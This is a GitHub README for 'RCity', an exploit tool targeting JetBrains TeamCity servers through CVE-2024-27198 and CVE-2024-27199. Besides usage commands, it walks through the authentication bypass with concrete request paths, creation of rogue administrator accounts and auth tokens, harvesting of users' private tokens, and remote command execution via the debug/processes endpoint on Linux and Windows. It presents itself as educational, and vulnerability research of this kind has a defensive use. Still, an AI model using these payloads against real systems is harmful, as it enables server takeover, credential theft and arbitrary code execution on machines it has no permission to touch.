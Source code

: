 # RCity - CVE-2024-27198 (RCE & Admin Account Creation) & CVE-2024-27199 (Auth Bypass)
<b>Exploiting CVE-2024-27198 & CVE-2024-27199</b>

RCity is a Python script that interacts with a vulnerable TeamCity server. The CVE facilitates for unauthorised admin account creation, bypassing 403's on the domain. Whilst also achieving RCE, through the Debug/Processes route.

## Usage

To use the script, you need to provide the target TeamCity server URL as a command-line argument with the `-t` or `--target` argument: 

```bash
python3 RCity.py -t http://teamcity.com:8111
```

You can increase output verbosity with the `-v` or `--verbose` option:

```bash
python3 RCity.py -t http://teamcity.com:8111 --verbose
```

You can send one shot commands directly through `-c` or `--command` option, <b>if you want an interactive shell DO NOT use this option. </b>It is not friendly with reverse shells, as connection closes after cmd is sent:

```bash
python3 RCity.py -t http://teamcity.com:8111 -c id
```


## Features

- Admin Account Creation

- Remote Code Execution

- Generating Authorisation Tokens

- Enumerating Users

- Gatherin all Private Auth Tokens of Users

- Gathering Server Details

## Example

![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/f37db2b2-ea5d-45c6-bb4a-5b0d5411e5a0)


# RCE

![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/f6279e56-1b95-4295-9b04-8ccf825a03bd)

# Token Generation


![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/a6377923-ebdc-4119-bb70-f4dcbadac084)


# Documentation

Here I'll go through the functions used in this project, to hopefully give you a better comprehension behind this exploit and the vulnerbailities associated with it.  

## Background

The nature of the vulnerability correlates between both CVE-2024-27198 & 99 due to the nature of the issue being produced from the same authentication bypass for REST API routes within JetBrains TeamCity servers. However, the impact of said vulnerability is where it interchanges, and gets interesting... CVE-2024-27198 being the real heavy hitter on paper, due to it's disclosed RCE impact, leverages the `/app/rest/debug/processes` endpoint, <b> ONLY </b> with the permissions to make the necessary requests to this endpoint, via an Auth Token. This call to this endpoint differs between Unix and Windows hosts, however is manipulated similarly, the only difference being the native shell that is provoked for a request. 

Linux - `processes?exePath=/bin/sh&params=-c&params={yourRCE_HTMLEncoded}`

Windows - `processes?exePath=cmd.exe&params=/c&params={yourRCE_HTMLEncoded}`

## Auth Bypass

Now, as mentioned prior - this isn't possible without authentication, should be safe... right? That's where the Auth Bypass comes in.

Bypassing the policy of the TeamCity build opens up the oppurtunity to make requests against the server and drop our Auth Token in there, without even technically needing our own account.

The bypass itself, is creating an alternative path to REST routes, that without going into too much detail, necessitates the control of contents in a class that's job is to handle requests, specifically those that aren't 302 (redirects), which then allows us to control it by appending 3 necessary parts into our URL.

1. An unauthenticated endpoint that will not trigger a 302, in our case `/hax`

2. A URL query parameter named `jsp` to query the API Routes, for examples sake, the `users` path `?jsp=/app/rest/users`

3. An arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment `;.jsp`

Meaning the final payload for making unauthorised requests to the users endpoint is: `/hax?jsp=/app/rest/users;.jsp`

Now we can make requests against the users endpoint and add our own users, even Administrators!

However, before we can go to RCE, we need an Auth token, as the bearer for our RCE requests against their REST API. No issue now we have our bypass, we'll go make one!

## REST API Token Generation --> RCE

The token endpoint was following the same path tree as the previous example, it can be found at `/app/rest/users/id:{user_id}/tokens/{token_name}`. So let's craft another payload to bypass auth and create a token!

<i>(We supply our own token name for this, for this script it is a random generation of alphanumeric ascii characters).</i>

`/hax?jsp=/app/rest/users/id:{user_id}/tokens/{token_name};.jsp`

After making our POST request to add our token into our newly created user, we can now start making requests against the `/app/rest/debug/processes` route!

Nothing special about the crafting of our RCE payloads, just HTML encode your payloads in the params argument!

##

<b>Happy hacking!</b>

## References

https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

https://nvd.nist.gov/vuln/detail/CVE-2024-27198

https://github.com/W01fh4cker/CVE-2024-27198-RCE

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you have permission to access.

